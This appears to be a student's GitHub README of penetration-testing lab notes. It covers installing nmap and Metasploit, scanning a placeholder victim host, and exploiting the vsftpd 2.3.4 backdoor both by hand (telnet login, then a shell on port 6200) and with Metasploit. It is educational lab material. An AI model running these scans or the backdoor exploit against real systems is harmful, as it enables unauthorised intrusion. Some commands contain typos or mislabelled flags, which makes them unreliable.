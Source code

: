 Installing first tools : 
```
apt update
apt install net-tools
apt install nmap
ifconfig
apt install -y iputils-ping
apt install metasploit-framework
```
* Testing ping for 2 machines 
```
ping <ip_victim>
```
```
ping <ip_pentester>
```
* Testing nmap roadmap 
```
nmap -F <ip_victim>
```

* Finding host and scanning network 
learning.oreilly.com/library/view/ceh-certified-ethical

1. check for live systems
```
sudo nmap -sP <ip_victim_network>/24
```

2. check for open ports
(port 80, 443 for web)
```
sudo nmap -sT -p 80,443 10.7.1.0/24
```
T : for TCP using 3-way handshake (Full Open scan) </br>
message 1 : i'm prot 443 Are you theire (SYN) </br>
message 2 : yes i'm thiere, (SYN ACK) </br>
message 3 : let's talk (ACK) </br>
More detect by the IDS </br>
3-way handshake without connection 
```
sudo nmap -sS -p 80,443 <ip_victim_network>/24
```

S : Stealthy (half Open Scan)
(2way handshake)
```
sudo nmap -sT <ip_victim>
```
If with wirshark :  </br>
filter by ip.addr eq <ip_victim> </br>
click one converstation and "apply this filter" </br>

4. Perform banner grabbing
OS detection :
```
sudo nmap -sO <ip_victim>
```
Mora options 
```
sudo nmap -A <ip_victim>
```

5. scan vulnerabilities
```
namp --script vuln <ip_victim>
```
* Scanning using msfconsole :
In Kali Terminal :
```
msfconsole
```
```
show payloads 
```
```
use auxiliary/scanner/portscan/tcp
```
```
show options
```
```
set ports 80
```
```
set rhosts <ip_victim>
```
```
run
```
OR
```
exploit
```

* Testing backdoor vsftpd manual
```
nmap -sS -p 6200 <ip_victim>
```
```
telnet  <ip_victim> 21
```
tape
```
user backdoor:)
```
tape
```
pass doesitmatter?
```
retest port in another terminal  (ctrl+shift+T)
```
nmap -sS -p 6200 <ip_victim>
```
Opening backdoor 
```
telnet  <ip_victim> 6200
```
command should be end by ;
```
whoami;
```
```
dir;
```

* Testing backdoor vsftpd : 
```
nmap -sV -p 21 <ip_victim>
```
search the exploit : 
```
msfconsole
```
```
search vsftpd
```
run exploit : 
```
use 1
```
```
set rhosts <ip_victim>
```
```
set rport 21
```
```
exploit
```
